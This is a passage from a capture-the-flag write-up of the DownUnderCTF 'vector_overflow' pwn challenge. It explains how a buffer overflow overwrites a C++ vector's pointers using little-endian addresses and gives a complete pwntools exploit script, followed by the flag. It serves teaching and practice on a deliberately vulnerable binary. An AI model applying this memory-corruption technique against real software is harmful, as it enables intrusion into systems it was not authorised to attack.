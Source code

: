 `payload = 'DUCTF\x00\x00\x00'` + `'\x00\x00\x00\x00\x00\x00\x00\x00'` 

- Payload has reach the top pointer of `v` so append the current payload with value `0x4051e0` which is the top of `buf`. However we need to consider how x64 address works and `little endianness`. `0x4051e0` is only 3 bytes long and x64 addresses are 8 bytes long. So need to take note the leading zeros infront. `0x00000000004051e0`. the first 4 bytes is the higher bytes and last 4 bytes is the lower bytes of the address. In `little endian`, the lower bytes goes first in memory, and within the bytes, it is inverted. 

`lower_bytes + high_bytes` = `'\xe0\x51\x40\x00' + '\x00\x00\x00\x00'`

- Lastly the payload need to be appended with the bottom address of `DUCTF`
- Final payload will be:-

`payload = 'DUCTF\x00\x00\x00'` + `'\x00\x00\x00\x00\x00\x00\x00\x00'` + `'\xe0\x51\x40\x00'` + `\x00\x00\x00\x00` + `'\xe5\x51\x40\x00`

### Execution

![Flag](/images/vectoroverflow-ductf5/flag.png)


### Full Script

```python
from pwn import *
if args.REMOTE:
    io = remote(sys.argv[1],sys.argv[2])
else:
    io = process("./vector_overflow", )
elf = context.binary = ELF("./vector_overflow", checksec=False)
rop = ROP(elf)
context.log_level = 'debug'

payload = 'DUCTF\x00\x00\x00' + '\x00\x00\x00\x00\x00\x00\x00\x00' + '\xe0\x51\x40\x00' + '\x00\x00\x00\x00' + '\xe5\x51\x40\x00'
io.sendline(payload)
io.interactive()
```


### Flag
`DUCTF{y0u_pwn3d_th4t_vect0r!!}`